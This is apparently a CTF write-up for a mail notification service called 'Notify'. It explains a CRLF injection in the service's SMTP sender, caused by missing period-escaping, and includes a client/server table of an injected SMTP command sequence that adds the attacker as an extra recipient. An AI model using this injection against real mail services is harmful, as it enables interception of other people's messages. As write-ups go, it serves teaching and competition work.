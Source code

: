 # Notify

Notify was a mail notification service, in which you could:

- Register a new account or login into a previously created one;
- Plan new email notifications with customizable subject/content;
- View the notifications once they are sent over SMTP by logging in to the IMAP server which ran as part of the launched [Stalwart Mail Server](https://stalw.art/) instance.

Additionally, there was an API endpoint for checking the "public" information (subject and planned send time) about notifications created by others if you had the notification's ID, which was exactly what was contained in the service's flag data.

## CRLF Injection in the SMTP mail sender

In order to implement the notifying functionality, the service sent notifications over the text-based [SMTP protocol](https://en.wikipedia.org/wiki/Simple_Mail_Transfer_Protocol), and contained a simple [CRLF injection](https://owasp.org/www-community/vulnerabilities/CRLF_Injection) vulnerability due to lack of any escapes which need to be performed to user-supplied data such as the subject and the content, specifically, the period-escaping mechanism described in [4.5.2. TRANSPARENCY](https://www.rfc-editor.org/rfc/rfc788.html#section-4.5.2) of the RFC:

> 1. Before sending a line of mail text the sender-SMTP checks the first character of the line. If it is a period, one additional period is inserted at the beginning of the line.

This vulnerability allowed the user, in the current context, to enter the end-of-mail marker sequence, `<CRLF>.<CRLF>`, thus ending the mail before the client expects it, and then input arbitrary commands. The intended exploitation method relies on Stalwart being quite liberal in the connections it handles, as it doesn't immediately cancel a misbehaving connection, allowing an exchange of commands such as this:

<table>
<tr>
  <th>Client</th>
  <th>Server</th>
</tr>
<tr>
  <td>
  <pre>MAIL FROM: &#x3C;notifier@notify&#x3E;\r\n
RCPT TO: &#x3C;attacker@notify&#x3E;\r\n
DATA\r\n
From: notifier@notify\r\n
To: attacker@notify\r\n
Subject: attacker-controlled subject
attacker-controlled data\r\n
.\r\n
MAIL FROM: &#x3C;notifier@notify&#x3E;\r\n
RCPT TO: &#x3C;attacker@notify&#x3E;\r\n
.\r\n
MAIL FROM: &#x3C;notifier@notify&#x3E;\r\n
RCPT TO: &#x3C;checker@notify&#x3E;\r\n
DATA\r\n
From: notifier@notify\r\n
To: checker@notify\r\n
Subject: checker subject
checker data with flag\r\n
.\r\n
</pre></td>
  <td>
  <pre>250 2.1.0 OK
250 2.1.5 OK
354 Start mail input; end with &#x3C;CRLF&#x3E;.&#x3C;CRLF&#x3E;
&nbsp;
&nbsp;
&nbsp;
&nbsp;
250 2.0.0 Message queued for delivery.
250 2.1.0 OK
250 2.1.5 OK
500 5.5.1 Invalid command.
503 5.5.1 Multiple MAIL commands not allowed.
250 2.1.5 OK
354 Start mail input; end with &#x3C;CRLF&#x3E;.&#x3C;CRLF&#x3E;
&nbsp;
&nbsp;
&nbsp;
&nbsp;
250 2.0.0 Message queued for delivery.</pre></td>
</tr>
</table>

In addition to the fact that Stalwart allows such communication, the service doesn't validate response codes, simply checking that it got a line as a response. As a result of such interaction, the attacker receives the notification meant for the checker alongside the checker itself, since there are effectively two recipients specified after the injection.

The complete exploit sends a notification with exactly such content, planned just a millisecond before the checker's notification (which was possible due to the public notification info endpoint), and then reads the notification from the IMAP server once it arrives: [smtp-crlf-injection.py](./smtp-crlf-injection.py).
